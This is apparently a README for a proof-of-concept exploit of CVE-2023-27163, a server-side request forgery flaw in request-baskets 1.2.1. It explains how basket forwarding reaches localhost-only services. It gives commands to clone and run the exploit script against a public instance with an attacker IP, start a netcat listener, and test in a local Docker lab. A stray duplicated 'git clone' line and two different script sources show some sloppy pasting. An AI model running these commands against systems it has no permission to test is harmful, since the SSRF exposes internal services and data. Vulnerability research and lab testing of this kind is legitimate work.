

# Proof Of Concept of SSRF on Request-Baskets (CVE-2023-27163)

This repository contains a Proof-of-Concept (PoC) for [CVE-2023-27163](https://nvd.nist.gov/vuln/detail/CVE-2023-27163), a Server-Side Request Forgery (SSRF) vulnerability discovered in [request-baskets](https://github.com/darklynx/request-baskets) up to [version 1.2.1](https://github.com/advisories/GHSA-58g2-vgpg-335q). This vulnerability allows attackers to access network resources and sensitive information by exploiting the /api/baskets/{name} component through a crafted API request.

Credits to [@b33t1e](https://github.com/b33t1e), @chelinboo147 and @houqinsheng (see [article](https://notes.sjtu.edu.cn/s/MUUhEymt7#)).

## Usage

```shell
git clone https://github.com/MasterCode112/CVE-2023-27163.git
bash ./CVE-2023-27163.sh https://rbaskets.in/ <attacker IP>
```

## How does it work?

Request-baskets is a web application built to collect and register requests on a specific route, so called basket. When creating it, the user can specify another server to forward the request. The issue here is that the user can specify unintended services, such as network-closed applications.

For example: let's suppose that the server hosts Request-baskets (port 55555) and a Flask web server on port 8000. The Flask is also configured to only interact with localhost. By creating a basket which forwards to `http://localhost:8000`, the attacker can access the before restricted Flask web server.

## Testing in localhost



1. Start the Docker container of Request-Baskets

```shell
docker run -p 55555:55555 darklynx/request-baskets:v1.2.1
``` git clone https://github.com/MasterCode112/CVE-2023-27163.git

2. Download the PoC

```shell
wget https://raw.githubusercontent.com/entr0pie/CVE-2023-27163/main/CVE-2023-27163.sh
```

3. Wait for a connection

```shell
nc -lvp 8000
```

4. Save the docker host ip address
```shell
DOCKER_IP=$(ifconfig docker0 | grep inet | head -n 1 | awk '{ print $2 }')
```

5. Run the PoC 

```shell
./CVE-2023-27163.sh http://127.0.0.1:55555/ http://$DOCKER_IP:8000/
```
